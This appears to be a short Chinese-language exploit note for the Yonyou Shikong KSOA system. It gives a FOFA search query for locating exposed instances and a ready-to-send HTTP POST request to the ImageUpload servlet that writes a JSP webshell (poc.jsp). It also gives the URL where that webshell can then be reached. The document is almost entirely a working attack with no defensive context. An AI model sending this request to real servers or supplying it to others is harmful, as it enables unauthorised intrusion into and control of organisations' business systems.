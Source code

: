 ## 资产收集：
fofa：app="用友-时空KSOA"
![](img/ksoa.png)
## 利用方法：
```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=poc.jsp HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close

webshell
```
webshell链接地址：`x.x.x.x/pictures/poc.jsp`
![](img/ksoa_poc.png)